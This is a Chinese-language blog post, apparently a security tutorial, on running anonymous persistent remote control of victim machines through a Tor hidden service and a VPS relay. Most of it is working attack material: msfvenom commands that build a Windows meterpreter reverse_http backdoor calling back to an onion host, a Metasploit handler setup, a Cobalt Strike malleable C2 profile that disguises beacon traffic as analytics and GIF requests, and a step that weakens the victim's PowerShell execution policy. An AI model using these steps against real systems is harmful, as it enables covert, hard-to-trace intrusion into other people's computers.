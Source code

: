 ```yaml
---
layout:         post
title:          Tor Hidden Service & 匿名攻击
author:         wooy0ung
tags:           msf
category:  	exploit
password:       yes
---
```



>利用 VPS 作为跳板强化可持续控制, 但还是会泄漏一部分个人信息。  
>Tor Hidden Services 提供了隐藏自身网络的服务, 它提供了一个唯一并且匿名的 hostname, 配合 VPS 进行流量转发, 最终实现匿名持续控制。  
![](/assets/img/exploit/2017-09-03-tor-fronting/0x00.png)
<!-- more -->


### 0x00 config Tor Hidden Services

查看系统版本

```
$ lsb_release -a
```

![](/assets/img/exploit/2017-09-03-tor-fronting/0x01.png)

选择对应的版本, [传送门](https://www.torproject.org/docs/debian.html.en#ubuntu)

![](/assets/img/exploit/2017-09-03-tor-fronting/0x02.png)

按提示要求安装, 然后编辑 /etc/tor/torrc 文件(取消注释)

```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```

重启 Tor 服务

```
$ sudo service tor restart
```


### 0x01 开启 http 服务

查看 hostname

```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

打开 http 服务

```
$ cd /tmp
$ python -m SimpleHTTPServer 8080
```

浏览器访问 xxx.onion.link, 确认页面能正常打开再关闭服务


### 0x02 payload & exploit

端口转发

```
$ ssh -N -R 8080:192.168.1.104:8080 root@VPS_IP
```

生成 http 反弹后门

```
$ msfvenom -p windows/meterpreter/reverse_http lhost=xxx.onion.link lport=80 -f exe > shell.exe
```

设置好 msf

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
msf exploit(handler) > set lhost 0.0.0.0
msf exploit(handler) > set lport 8080
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

在 Victim's machine 执行 payload, getshell~

![](/assets/img/exploit/2017-09-03-tor-fronting/0x03.png)


### 0x03 cobaltstrike

将 teamserver、cobaltstrike.jar上传到 vps, 在 vps nano tor-fronting.profile 文件, 添加以下内容

```
set sleeptime "5000";
http-get {
        set uri "/___utm";
        client {
                header "Host" "xxx.onion.link";
                header "Cookie" "onion_cab_iKnowShit=xxx";
                metadata {
                        base64url;
                        prepend "__utma";
                        parameter "utmcc";
                }
        }
        server {
                header "Content-Type" "plain/text";
                output {
                        # hexdump pixel.gif
                        # 0000000 47 49 46 38 39 61 01 00 01 00 80 00 00 00 00 00
                        # 0000010 ff ff ff 21 f9 04 01 00 00 00 00 2c 00 00 00 00
                        # 0000020 01 00 01 00 00 02 01 44 00 3b
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}
http-post {
        set uri "/__utm";
        set verb "GET";
        client {
                header "Host" "xxx.onion.link";
                header "Cookie" "onion_cab_iKnowShit=xxx";
                id {
                        prepend "UA-220";
                        append "-2";
                        parameter "utmac";
                }
                output {
                        base64url;
                        prepend "__utma";
                        parameter "utmcc";
                }
        }
        server {
                header "Content-Type" "plain/text";
                output {
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}
# dress up the staging process too
http-stager {
        server {
                header "Content-Type" "plain/text";
        }
}
```

打开 teamserver

```
$ ./teamserver VPS_IP msf tor-fronting.profile
```

连接 teamserver

```
$ ./cobaltstrike
```

![](/assets/img/exploit/2017-09-03-tor-fronting/0x04.png)

新建 listener

![](/assets/img/exploit/2017-09-03-tor-fronting/0x05.png)
![](/assets/img/exploit/2017-09-03-tor-fronting/0x06.png)

生成 payload

![](/assets/img/exploit/2017-09-03-tor-fronting/0x07.png)

在 Victim's machine 的 powreshell 下执行以下命令, 允许执行不信任脚本

```
> set-ExecutionPolicy RemoteSigned
```

再执行 payload, getshell~

![](/assets/img/exploit/2017-09-03-tor-fronting/0x08.png)
